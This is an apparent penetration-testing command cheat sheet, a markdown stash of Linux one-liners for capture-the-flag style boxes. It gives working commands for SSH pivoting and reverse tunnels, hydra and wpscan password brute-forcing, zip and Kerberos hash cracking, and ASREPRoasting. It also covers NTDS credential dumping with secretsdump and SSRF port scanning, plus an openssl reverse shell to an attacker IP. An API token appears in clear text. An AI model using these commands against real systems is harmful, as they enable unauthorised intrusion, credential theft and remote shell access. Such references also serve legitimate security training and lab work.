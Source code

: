 


## SSH Tunneling 101
```bash
# SSH local port forward to reach  an_internal_server_ip:port via server_ip
ssh tunneler@server_ip -p 2222 -L 1234:an_internal_server_ip:80 
# Now curl localhost:1234 will fetch an_internal_server_ip:80 which is reachable from server_ip only

# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip
ssh tunneler@server_ip -p 2222 -D 1080 
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from server_ip only

# ProxyJump ssh to an_internal_host via ssh server_ip
ssh -J tunneler@server_ip:2222 whistler@an_internal_host # which is only accessible from server_ip

# SSH remote port forward to send traffic back to our local port from a port of server_ip
ssh whistler@server_ip -p 2222 -L 58671:localhost:1234 # 
# this will listen on port 58671 of server_ip and tunnel the traffic back to us on loclahost:1234; nc -nlvp 1234 to receive for example

# Chain ProxyJump + dynamic port forward to create a proxy of 2nd_box which is only accessible via 1st_box
ssh -j firstuser@1st_box:2222 seconduser@2nd_box -D 1080
# next config proxychains socks4a localhost 1080; proxychains curl http://any_internal_server_ip/; which is reachable from 2nd_box only

# bypass first time prompt when have non-interactive shell

ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ...

```

## SSH reverse tunneling
```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```

## create self-signed ssl certificate
```bash
openssl req -newkey rsa:2048 -nodes -keyout my_cert.key -x509 -days 36
2 -out my_cert.crt

# convert to .pem if needed:
openssl pkcs12 -export -in my_cert.crt -inkey my_cert.key -out my_cert.p12
openssl pkcs12 -in my_cert.p12 -nodes -out my_cert.pem
```

## searchsploit
```bash
searchsploit -www query # show exploitdb link instead
searchsploit -x /path/to/exploit # read the exploit file
searchsploit -m /path/to/exploit # mirror exploit file to current directory
```


## hydra web form bruteforce
```bash
hydra -l admin -P ~/git/SecLists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.75 http-post-form "/blog/admin.php:username=^USER^&password=^PASS^:Incorrect username"

hydra -l admin -P ~/git/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64 # 64 threads
# change to https-web-form for port 443
```
## hydra ssh brute
```bash
hydra -l username -P wordlist.txt ssh <Target-IP> -s 22222
```

## get glibc version
```bash
ldd --version
```
## compile for 32 bit from a 64bit os, install `gcc-multilib` first
```bash
gcc -m32 -D_GNU_SOURCE -o suid32 suid.c
```
## transfer files through netcat
```bash
# start listening for download
nc -nlvp 9001 > dump.txt
# start uploading from target box
nc ip port < file.txt

```


## bruteforce zip file with fcrackzip
```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace.zip 
```
## bruteforce zip file with john
```bash
zip2john myfile.zip > johnkey
john johnkey --wordlist=/usr/share/wordlists/rockyou.txt
```

## port knocking on 3 ports using nmap
```bash
for x in $(echo 22 23 24);do nmap -PN --host-timeout 201 --max-retries 0 -r -p$x 192.168.0.106;done
```

## classic gobuster
```bash
gobuster dir -u http://10.10.10.55:8080 -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3831.6 Safari/537.36' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster/http-dlist-lower-small.txt
```

## list contents of .vhd file
```bash
7z l filename.vhd
```


## do a local port scan using SSRF
```bash
# --hl=2 is hide responses that has 2 lines. 
wfuzz -c --hl=2 -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

## dump password hasshes from ntds dump file using system hive file and the dit file
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.bin LOCAL
# tip: users ending with $ are system accounts and has hard passwords, look for other ones
```
## wpscan enum all plugins 
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive --force --api-token o3Oj8OysJNmHbVf5PoEMe6ASLUrac3Q5KJB8G0aguz4
```

## wpscan brute
```bash
wpscan --usernames tom -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url http://192.168.137.131/prehistoricforest/ --no-update
```

## generate client certificate from ca.key
```bash
openssl req -x509 -new -nodes -key ca.key -sha256 -days 1024 -out rh.pem
openssl pkcs12 -export -in rh.pem -inkey ca.key -out rh.p12
```

## openssl reverse shell 
```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## generate passwd hash with openssl
```sh
openssl passwd -1 -salt rh0x01 password123
```

## check ASREPRoast for all domain users (without credentials)
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## john crack krb5asrep hash
```bash
john --format:krb5asrep alfresco.kerb --wordlist=/usr/share/wordlists/rockyou.txt
```


## generate password wordlist with crunch
```bash
crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
# 13 13 - min max length
# bev - start's with
# @ will insert lower case characters
# , will insert upper case characters
# % will insert numbers
# ^ will insert symbols
```


## mount nfs share
```bash
mount -t nfs -o vers=3 10.1.1.1:/home/ ~/home


mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint
```

## mount smb share
```sh
sudo mount -t cifs //10.1.1.1/'sharename' /home -o rw,vers=1.0,dir_mode=0777,file_mode=0777,nounix
# or
sudo mount -t cifs -o vers=1.0 //10.11.1.136/'Sharename' sharemount
```

## login to windows machine in the network with proxychains

```bash
xfreerdp /u:admin /v:ip_address +clipboard
```


LINNK - https://raw.githubusercontent.com/rayhan0x01/my-cmd-stash/master/linux_cmd.md
